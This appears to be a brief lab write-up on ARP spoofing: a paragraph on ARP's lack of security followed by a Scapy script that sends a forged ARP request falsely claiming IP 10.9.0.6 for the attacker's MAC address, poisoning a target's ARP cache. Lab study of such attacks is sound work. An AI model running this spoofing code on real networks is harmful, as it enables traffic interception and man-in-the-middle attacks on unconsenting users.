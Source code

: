 # ARP Spoofing Attack
The Address Resolution Protocol (ARP) is a communication protocol used for discovering the link layer address, such as the MAC address, given an IP address. The ARP protocol is a very simple protocol, and it does not implement any security measure.

## ARP Request
```
# Nigel ARP Request Script 
#!/usr/bin/env python3 
from scapy.all import * 

 # Create Ethernet and ARP objects 
ethernet = Ether(dst='02:42:0a:09:00:05', src='02:42:0a:09:00:69') 
arp = ARP(op=1, pdst='10.9.0.5', hwsrc='02:42:0a:09:00:69', hwdst='02:42:0a:09:00:05', psrc='10.9.0.6') 

 # Send the packet 
sendp(ethernet/arp) 
```
